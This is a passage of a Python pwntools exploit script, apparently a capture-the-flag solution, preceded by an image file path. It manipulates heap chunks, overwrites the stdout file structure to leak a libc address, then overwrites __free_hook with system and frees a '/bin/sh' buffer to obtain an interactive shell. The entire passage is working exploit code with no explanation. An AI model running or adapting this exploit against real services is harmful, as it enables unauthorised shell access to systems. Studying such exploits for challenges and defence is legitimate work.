 ```python
    remove(1)
    

    new(-1, "A"*16 + p64(0x21) + p64(0x400) + "\x20\xe7")
    
    
    remove(0)
    
    
    new(144, "A")
    
    
    
    new(144, p64(0xfbad1800)+p64(0)*3+"\x00")
    
    try:
        dat = p.recvline()
        libc.address = u64(dat[24:32]) - 0x3d73e0
    except struct.error:
        print("skip")
        continue
    except EOFError:
        print("asdf")
        continue
    
    print("libc base", hex(libc.address))
    
    
    remove(0)
    
    
    new(0xe0, "iiiiiiii")
    
    remove(0)
    
    print("libc free hook", hex(libc.sym["__free_hook"]))
    print("libc system", hex(libc.sym["system"]))
    
    new(0xf0, "B"*0x50 + p64(0) + p64(0xc1) + p64(libc.sym["__free_hook"]))
    
    remove(0)
    
    new(0xb0, "/bin/sh")
    
    remove(1)
    
    new(0xb0, p64(libc.sym["system"]))
    
    remove(0)
    
    
    p.interactive()
```
